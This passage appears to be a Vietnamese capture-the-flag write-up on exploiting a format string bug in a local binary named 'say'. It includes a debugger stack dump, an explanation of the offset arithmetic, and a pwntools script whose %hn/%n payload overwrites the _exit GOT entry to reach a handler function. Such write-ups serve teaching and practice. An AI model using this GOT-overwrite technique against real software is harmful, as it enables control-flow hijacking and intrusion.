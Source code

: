 ```shell
01:0008│             0x7ffe754d7298 —▸ 0x7ffe754d7288 —▸ 0x7ff3a7d452e0 ◂— 0x0
02:0010│ rax rdi rsi 0x7ffe754d72a0 ◂— 0x3125703839373425 ('%4798p%1')
03:0018│             0x7ffe754d72a8 ◂— 0x373532256e682436 ('6$hn%257')
04:0020│             0x7ffe754d72b0 ◂— 0x2570393535373936 ('697559p%')
05:0028│             0x7ffe754d72b8 ◂— 0x2d2d2d2d6e243731 ('17$n----')
06:0030│             0x7ffe754d72c0 —▸ 0x404018 (_exit@got.plt) —▸ 0x401030 ◂— endbr64
07:0038│             0x7ffe754d72c8 —▸ 0x404028 (__stack_chk_fail@got.plt) —▸ 0x401050 ◂— endbr64

```

payload của mình sẽ như sau:

**payload = b"%4798p%16$hn%257697559p%17$n----" +  p64(binary.got['_exit']) + p64(binary.got['_exit'] + 0x10)**

thì 4798 là 0x12be để ghi 2 byte vào tham số thứ 16, ta thấy %4798 .... ---" đã là 32 bytes, 4 stack, chính nó là tham số thứ 11, thêm thằng thứ 12 là null byte, thì chuỗi này chiếm trọn tới tham số thứ 15. Do đó các địa chỉ ở sau sẽ là 16 và 17. 

Thì mình ghi 0x12be vào GOT của _exit(). Xong rồi để gọi được handler() thì mình phải tiếp tục ghi để quá 5s, nên là phần sau sẽ ghi ra màn hình số lượn lớn kí tự và ghi vào 1 địa chỉ bất kì để bypass.


### exploit code


```python
from pwn import *

binary  = context.binary = ELF('./say')
r = process(binary.path)

# gdb.attach(r, api=True)
payload =b"%4798p%16$hn%257697559p%17$n----" +  p64(binary.got['_exit']) + p64(binary.got['_exit'] + 0x10)
r.sendafter(b"\n> ",payload)
print(r.recv())
r.interactive()

# for i in range(20):
#     r = process("./say")
#     r.send(f"%{i+1}$p")
#     log.info(f"{i} : \n")
#     log.info( r.recv())
#     r.interactive()

# 11

```


_______________________________________________________________________________________________________________________________

